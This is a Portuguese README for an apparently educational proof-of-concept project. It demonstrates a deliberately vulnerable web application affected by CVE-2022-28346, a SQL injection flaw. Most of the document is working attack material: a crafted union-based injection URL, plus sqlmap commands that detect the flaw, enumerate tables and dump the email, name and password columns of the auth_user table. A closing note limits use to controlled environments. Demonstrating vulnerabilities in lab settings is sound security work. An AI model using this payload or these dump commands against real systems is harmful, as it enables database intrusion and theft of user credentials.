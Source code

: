 # Aplicação Vulnerável ao CVE-2022-28346

Este projeto demonstra uma aplicação vulnerável ao [CVE-2022-28346](https://nvd.nist.gov/vuln/detail/CVE-2022-28346), permitindo a exploração de SQL Injection.

## Instalação do sqlmap

Para realizar os testes, instale o [sqlmap](https://sqlmap.org/) com o comando:

```bash
sudo snap install sqlmap
```

## Prova de Conceito (PoC)

Abaixo estão exemplos de exploração utilizando sqlmap e uma URL vulnerável:

### URL de Teste

```
http://127.0.0.1:8000/poc?field=poc.title%22%20FROM%20%22core_blog%22%20union%20SELECT%20%22-1,%22,sqlite_version(),%223%22%22--
```

### Comandos sqlmap

- **Detectar vulnerabilidade:**
    ```bash
    sqlmap "http://127.0.0.1:8000/poc?field=poc.title%22%20FROM%20%22core_blog%22%20union%20SELECT%20%22-1,%22,sqlite_version(),%223%22%22--" -p field --risk=3 --level=5
    ```

- **Listar tabelas do banco de dados:**
    ```bash
    sqlmap "http://127.0.0.1:8000/poc?field=poc.title%22%20FROM%20%22core_blog%22%20union%20SELECT%20%22-1,%22,sqlite_version(),%223%22%22--" -p field --risk=3 --level=5 --tables
    ```

- **Listar colunas da tabela `auth_user`:**
    ```bash
    sqlmap "http://127.0.0.1:8000/poc?field=poc.title%22%20FROM%20%22core_blog%22%20union%20SELECT%20%22-1,%22,sqlite_version(),%223%22%22--" -p field --risk=3 --level=5 -T auth_user --columns
    ```

- **Extrair dados das colunas `email`, `first_name` e `password` da tabela `auth_user`:**
    ```bash
    sqlmap "http://127.0.0.1:8000/poc?field=poc.title%22%20FROM%20%22core_blog%22%20union%20SELECT%20%22-1,%22,sqlite_version(),%223%22%22--" -p field --risk=3 --level=5 -T auth_user -C email,first_name,password --dump
    ```

> **Atenção:** Este material é apenas para fins educacionais e deve ser utilizado em ambientes controlados.

